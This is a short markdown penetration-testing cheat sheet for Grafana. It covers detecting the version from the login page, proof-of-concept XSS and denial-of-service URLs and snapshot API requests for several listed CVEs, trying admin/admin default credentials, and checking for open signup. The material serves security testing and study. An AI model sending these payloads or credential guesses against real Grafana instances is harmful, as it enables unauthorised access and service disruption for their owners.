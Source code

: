 # Grafana

## Introduction
What would you do if you came across a website that uses Grafana?

## How to Detect
Try to HTTP request to `https://example.com/login` and there is a form login

1. Find the related CVE by checking grafana version
* How to find the grafana version

Try to request to `https://example.com/login` and then check the source code. You will find the version in JSON body `"isEnterprise":false,"latestVersion:"9.0.0","version":"8.3.2"` so 8.3.2 is the grafana version. If you found outdated grafana version, find the CVEs at [CVEDetails](https://www.cvedetails.com/vulnerability-list/vendor_id-18548/product_id-47055/Grafana-Grafana.html)

Some example CVE:

- CVE-2021-41174 (Reflected XSS)
```
https://example.com/dashboard/snapshot/%7B%7Bconstructor.constructor('alert(1)')()%7D%7D?orgId=1
```
- CVE-2020-13379 (Denial of Service)
```
https://example.com/avatar/%7B%7Bprintf%20%22%25s%22%20%22this.Url%22%7D%7D
```
- CVE-2020-11110 (Stored XSS)
```
POST /api/snapshots HTTP/1.1
Host: example.com
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Referer: {{BaseURL}}
content-type: application/json
Connection: close

{"dashboard":{"annotations":{"list":[{"name":"Annotations & Alerts","enable":true,"iconColor":"rgba(0, 211, 255, 1)","type":"dashboard","builtIn":1,"hide":true}]},"editable":true,"gnetId":null,"graphTooltip":0,"id":null,"links":[],"panels":[],"schemaVersion":18,"snapshot":{"originalUrl":"javascript:alert('Revers3c')","timestamp":"2020-03-30T01:24:44.529Z"},"style":"dark","tags":[],"templating":{"list":[]},"time":{"from":null,"to":"2020-03-30T01:24:53.549Z","raw":{"from":"6h","to":"now"}},"timepicker":{"refresh_intervals":["5s","10s","30s","1m","5m","15m","30m","1h","2h","1d"],"time_options":["5m","15m","1h","6h","12h","24h","2d","7d","30d"]},"timezone":"","title":"Dashboard","uid":null,"version":0},"name":"Dashboard","expires":0}
```
- CVE-2019-15043 (Grafana Unauthenticated API)
```
POST /api/snapshots HTTP/1.1
Host: example.com
Connection: close
Content-Length: 235
Accept: */*
Accept-Language: en
Content-Type: application/json

{"dashboard":{"editable":false,"hideControls":true,"nav":[{"enable":false,"type":"timepicker"}],"rows": [{}],"style":"dark","tags":[],"templating":{"list":[]},"time":{},"timezone":"browser","title":"Home","version":5},"expires": 3600}
```
2. Default Credentials
```
Try to login using admin as username and password
```
3. Signup Enabled
```
https://example.com/signup
```
